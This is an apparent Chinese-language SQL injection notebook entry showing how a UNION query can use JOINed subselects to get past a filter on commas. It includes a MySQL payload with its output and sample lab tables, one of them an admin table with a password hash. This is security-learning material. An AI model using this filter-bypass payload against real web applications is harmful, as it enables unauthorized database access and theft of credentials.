# 一、union联合查询-join()绕过逗号（,）过滤

# 0x00 概要

在页面有显示位的情况下使用

# 0x01 记忆方式



```plain
mysql> select * from test where id=-1 union select * from (
    (select 1)A join 
    (select 2)B join 
    (select 3)C join 
    (select 4)D
);

+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 2    | 3    | 4       |
+------+------+------+---------+
1 row in set (0.00 sec)
```



# 0x02 测试表数据



```plain
# 测试表数据: test;

mysql> select * from test;
+------+------+------+---------+
| id   | test | map  | content |
+------+------+------+---------+
|    1 | 1    | 1    | 1       |
|    2 | 2    | 2    | 2       |
|    3 | 3    | 3    | 3       |
+------+------+------+---------+
3 rows in set (0.00 sec)
```



```plain
# 测试管理表: tdb_admin;

mysql> select * from tdb_admin;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```
